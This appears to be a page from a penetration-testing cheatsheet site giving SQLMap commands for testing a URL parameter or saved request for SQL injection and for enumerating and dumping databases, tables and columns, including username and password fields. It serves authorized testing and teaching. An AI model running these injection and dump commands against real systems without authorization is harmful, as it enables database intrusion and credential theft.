

repository: ch0kan/security-fieldbook · page: cheatsheets/web/sqlmap/index.html · generator: mkdocs

# SQLMap

---

## Executive Summary

SQLMap automates SQL injection testing and database enumeration.

Use this cheatsheet for quick command lookup when validating SQL injection in authorized labs or assessments.

## Basic Usage

Test a URL parameter:

```bash
sqlmap -u "http://example.com/item?id=1"
```

Batch mode:

```bash
sqlmap -u "http://example.com/item?id=1" --batch
```

Increase risk and level:

```bash
sqlmap -u "http://example.com/item?id=1" --risk 3 --level 5
```

Specify database type:

```bash
sqlmap -u "http://example.com/item?id=1" --dbms=mysql
```

## Request Files

Save a request from Burp and run:

```bash
sqlmap -r request.txt
```

Batch mode with request file:

```bash
sqlmap -r request.txt --batch
```

Specify parameter:

```bash
sqlmap -r request.txt -p id
```

## Enumeration

List databases:

```bash
sqlmap -u "http://example.com/item?id=1" --dbs
```

List tables:

```bash
sqlmap -u "http://example.com/item?id=1" -D DATABASE --tables
```

List columns:

```bash
sqlmap -u "http://example.com/item?id=1" -D DATABASE -T TABLE --columns
```

Dump table:

```bash
sqlmap -u "http://example.com/item?id=1" -D DATABASE -T TABLE --dump
```

Dump specific columns:

```bash
sqlmap -u "http://example.com/item?id=1" -D DATABASE -T TABLE -C username,password --dump
```
